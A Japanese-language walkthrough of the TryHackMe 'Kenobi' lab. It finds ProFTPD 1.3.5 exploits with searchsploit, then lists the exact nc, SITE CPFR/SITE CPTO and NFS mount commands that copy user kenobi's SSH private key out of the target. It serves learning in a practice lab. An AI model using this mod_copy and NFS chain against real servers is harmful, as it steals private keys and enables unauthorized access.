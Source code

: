 ![image](https://github.com/y-uoh/THM/assets/169203901/117d7468-5b7b-4dd0-a3ac-3a190754ec9f)  
![image](https://github.com/y-uoh/THM/assets/169203901/50355d77-c9cc-4fa2-9cb8-ada4f9a0b242)  
  
### Q：Searchsploitを使用して、ProFTPDのエクスプロイトがいくつあるか探索せよ
#### 実施コマンド
```bash
searchsploit ProFTPD 1.3.5
```
#### 説　明
- `searchsploit <サービス名> <バージョン名>`でエクスプロイトを検索できる
#### 解　答
`4個`  
  
![image](https://github.com/y-uoh/THM/assets/169203901/74bf6d75-3027-4414-8f09-77790751617e)  
  
### Q：kenobiのユーザフラグ(/home/kenobi/user.txt)は何か
#### ここまでの整理
- 当該端末は、NSFを使用し、共有フォルダとして`/varをマウント`している
- 当該端末は、FTPサーバーに`ProFTPD1.3.5`を使用している
- `ProFTPD1.3.5`には、`mod_copyというモジュール`があり、それには`リモートから任意のファイルをコピー`できるという脆弱性が報告されている
- `SMB`の共有フォルダにあった`log.txt`から、FTPにリモートログインするために`kenobiというユーザ`がSSHキーを生成し、`/home/kenobi/.ssh/id_rsa`に保存している

#### 整理した内容からのOCの列挙
- `mod_copyモジュール`を使い、`/home/kenobi/.ssh/id_rsa`をコピーしたのち、NFSの共有ディレクトリ`/var`にペーストできれば、`SSHキー`を手に入れることが可能となる
  - `mod_copyモジュール`を使用できるコマンドは`SITE CPFR /home/kenobi/.ssh/id_rsa`
  - `SITE CPFR`でコピーしたファイルをペーストするコマンドは`SITE CPTO /var/tmp/id_rsa` ※敢えて/var/tmpの中に書き込んでいる
- `/home/kenobi/.ssh/id_rsa`を配送するための手段として、`/mntに共有ディレクトリ（今回はkenobiNFS）を作成`し、`/var`と共有できる状態を作る
  - NSFとマウントさせるコマンドは、`mount 10.10.134.113:/var /mnt/kenobiNFS`  

#### 実施コマンド
#### phase1：id_ProFTPDの脆弱性を突く
```bash
nc 10.10.134.113 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```  
![image](https://github.com/y-uoh/THM/assets/169203901/add6dce7-3b6f-4330-84b6-a7b972a97b44)  
  
#### 説　明
- netcatでFTPに接続 -> `nc 10.10.134.113 21`
- `ProFTPD1.3.5`の`mod_copy`モジュールの脆弱性を突いて、任意のユーザのファイルをコピーし、NFSの共有ディレクトリにペースト
  - `kenobiユーザーのSSHキー`をコピー -> `SITE CPFR /home/kenobi/.ssh/id_rsa`
  - コピーしたファイルを`NFSの共有ディレクトリにペースト` -> `SITE CPTO /var/tmp/id_rsa`
  
### phase2：NFSを使って配送
```bash
sudo mkdir /mnt/kenobiNFS
sudo mount 10.10.18.4:/var /mnt/kenobiNFS
ls -al /mnt/kenobiNFS
cp /mnt/kenobiNFS/tmp/id_rsa .
ls
```  
  